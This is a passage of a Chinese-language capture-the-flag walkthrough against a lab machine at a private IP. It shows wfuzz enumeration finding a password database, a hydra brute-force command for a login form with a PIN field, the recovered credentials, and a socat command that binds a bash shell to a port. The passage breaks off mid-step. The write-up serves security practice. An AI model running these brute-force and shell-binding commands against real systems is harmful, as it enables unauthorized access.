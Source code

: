 可以看出除了要账号密码，还需要 Pin 登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJbpKQEtsQUwrDClFDHd7pKib66EL1euUiblntQ7KZqbZDRovjqwWD90OQ/640?wx_fmt=png)

我尝试 dirb 枚举，没发现什么...

9999 上的服务器是 database 的文件夹中获取的... 但是没提供数据库... 应该是个文件，数据库文件一般是. db 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJb1tehLGBLxekdhgJgUuf4icHVh6rOBnl5znvxgq6xAOibYQ98tD59Nsg/640?wx_fmt=png)

利用 wfuzz 工具并使用了自带的单词表进行爆破... 发现了 pwds.db 数据库文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJxz6hONNtV6oUpo7dvHzTgIiccMLpibgjP8kfrRvvkKHhY2Rlk9tibjprg/640?wx_fmt=png)

可以看到这是一个密码表...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJibObqsYIc44E7Oep8Nb3fqs1tR33HhlcCvZSrolOVibOeicib34ShlEpfQ/640?wx_fmt=png)

我放入本地，用户我目前只发现了四个...

知道了用户名和密码... 回看还需要一个值 pin 进行登陆，我需要生成 1~10000 值得文本...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJZNQG2JQL3WfWo4ja13RNUicprwKuoKRZsZS0h941ETQmXvqPZPMARpg/640?wx_fmt=png)

执行生成 1~10000 个数字值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJCeuhTGMNgWPgn69kfKTsNhPPC6rPACm4CExPEwKI6PAh8ibFs4icPlmg/640?wx_fmt=png)

开始爆破...

这边爆破需要长达 10 多个小时... 我重新做了一遍才写的，不小心关了窗口，所以直接告诉你们答案了...

```
hydra -L pins.txt -P dayupasswd.txt 192.168.182.138 -s 8888 http-post-form "/login.php:user=pinkadmin&pass=^PASS^&pin=^USER^:F=Incorrect"
```

这边我一个一个账户进行爆破的... 结果：

```
pinkadmin:AaPinkSecaAdmin4467:55849
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJmc30C4Q1LmzX5OAOkk9Ub3uXxI49sibFEpx5U90mZ7pXz3gvMbsFZZw/640?wx_fmt=png)

成功登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ5ZbCoyLiao6NQRQvl0RMG7KwFiacMm4ia0jmTD4IbrE8nicc2icKS3I703w/640?wx_fmt=png)

这是一个 shell... 我继续通过 socat 进行创建端口隧道...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJSo8nRLyA1qGy4KhANG48mQHHmDK3Oexpg0BlGv3xSRQo9Xyo3tq8PQ/640?wx_fmt=png)

```
socat TCP-LISTEN:2222,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

然后在本地...
